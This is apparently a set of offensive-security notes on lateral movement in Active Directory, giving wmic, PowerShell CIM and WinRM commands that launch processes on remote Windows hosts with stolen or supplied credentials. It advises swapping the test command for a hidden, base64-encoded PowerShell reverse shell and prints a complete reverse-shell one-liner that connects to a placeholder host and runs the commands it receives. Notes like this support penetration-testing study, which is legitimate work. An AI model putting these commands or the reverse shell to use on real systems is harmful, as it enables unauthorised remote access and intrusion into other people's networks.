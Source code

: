 # Active Directory Lateral Movement

## Windows Management Instrumentation (WMI)

WMI is an object-oriented feature that facilitates task automation.

It can create processes using the `Create` method from the `Win32_Process` class and communicated over RPC on port 135 and a higher range port (19152-65535) for session data.

For both of the methods below, we can replace `calc` with a PowerShell reverse shell one-liner encrypted in base64 and called via `powershell -nop -w hidden -e <BASE64_POWERSHELL_REVSHELL>`.

### wmic

Now deprecated but most likely still around. Example usage:

```
# Creates a calc.exe process on a target machine authenticating as target user

wmic /node:<TARGET_IP> /user:<USERNAME> /password:<PASSWORD> process call create "calc"
```

### WMI in PowerShell

Uses the Common Information Model (CIM).

```
# Make PowerShell credential
$username = <USERNAME>;
$password = <PASSWORD>;
$secureString = ConvertTo-SecureString $password -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential($username, $secureString);

# Configure WMI CIM
$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName <TARGET> -Credential $cred -SessionOption $Options;
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create Arguments @{CommandLine = $command}
```


## Windows Remote Management (WinRM)

Microsoft's implementation of WS-Management protocol. Communicates by sending XML messages over HTTP/HTTPS on ports 5985/5986 respectively.

Similar to WMI, can replace `calc` in either of these commands with `powershell -nop -w hidden -e <BASE64_POWERSHELL_REVSHELL>`

Where the encrypted payload is a base64 encoded PowerShell reverse shell:

```
$client = New-Object System.Net.Sockets.TCPClient("<TARGET_IP>",<TARGET_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
